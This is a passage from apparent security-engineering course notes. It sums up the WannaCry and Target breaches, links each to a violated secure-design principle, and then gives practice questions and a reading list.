- NHS (UK): 1/3 of hospital trusts affected, **92 million cost**
- Patch was available **2 months before** the attack (MS17-010, released March 14, 2017)

**Principle violated:** Fail-safe defaults — systems should fail in a secure state. Unpatched systems with SMBv1 enabled by default provided a massive attack surface.

### 6.6 Target (2013)

**Attack path:** Attackers phished Fazio Mechanical (HVAC vendor) → used stolen credentials to access Target's network → installed malware on POS systems .

**Impact:** **40 million** credit/debit cards + **70 million** personal records compromised. Total cost exceeded **$200 million**.

**Principle violated:** Least privilege — the HVAC vendor had network access far exceeding what was necessary for their role. Proper network segmentation and vendor access controls would have prevented lateral movement from the vendor network to POS systems.

### Practice Questions

1. For each case study, identify which OWASP Top 10 (2021) category it falls under.
2. Compare Heartbleed and Log4Shell: both violated economy of mechanism, but in different ways. What distinguishes them?
3. How would SCA (Software Composition Analysis) have changed the timeline for Equifax and Log4Shell?
4. Design a defense-in-depth strategy for a system similar to SolarWinds Orion. Which Saltzer & Schroeder principles would you prioritize?

---

## Essential Reading

| Priority | Source | What It Covers |
|----------|--------|----------------|
| **Core** | McGraw 2006  | Security as emergent property, Touchpoints, 50/50 split |
| **Core** | Felderer et al. 2016  | Comprehensive security testing survey |
| **Core** | Shostack 2014  | Threat modeling with STRIDE |
| **Core** | Saltzer & Schroeder 1975  | Eight foundational secure design principles |
| Recommended | Chess & West 2007  | Static analysis techniques and SAST |
| Recommended | Rajapakse et al. 2021  | DevSecOps integration challenges |
| Recommended | Howard & LeBlanc 2006  | SD3 framework, input validation |
| Deep dive | Avizienis et al. 2004  | Dependability taxonomy (fault-error-failure) |
| Deep dive | Weidman 2014  | Penetration testing methodology |
| Deep dive | Williams et al. 2025  | Supply chain security attack vectors |

---

### References



---

{: .highlight }
**Disclaimer:** AI is used for text summarization, polishing and explaining. Authors have verified all facts and claims. In case of an error, feel free to file an issue.
